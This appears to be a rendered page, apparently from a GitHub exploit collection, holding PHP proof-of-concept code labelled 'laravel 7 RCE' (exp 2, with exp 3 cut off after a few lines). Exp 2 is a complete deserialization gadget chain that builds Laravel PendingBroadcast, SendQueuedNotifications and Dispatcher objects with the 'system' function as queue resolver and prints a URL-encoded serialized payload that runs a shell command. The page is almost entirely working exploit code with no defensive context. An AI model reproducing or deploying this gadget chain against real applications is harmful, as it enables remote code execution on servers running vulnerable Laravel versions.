 *   **exp 2**
    

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc7
# @author: Ricky
*/

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events=$events;
            $this->event=$event;
        }
    }
}

namespace Illuminate\Notifications {
    class SendQueuedNotifications {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver) {
            $this->queueResolver = $queueResolver;
        }
    }
}

namespace {
    $c = new Illuminate\Bus\Dispatcher('system');
    $b = new Illuminate\Notifications\SendQueuedNotifications('dir');
    $a = new Illuminate\Broadcasting\PendingBroadcast($c, $b);
    echo urlencode(serialize($a));
}

```

*   **exp 3**
    

```
<?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc8
# @author: Ricky
*/

namespace Illuminate\Broadcasting{
    class PendingBroadcast {
        protected $events;
        protected $event;
```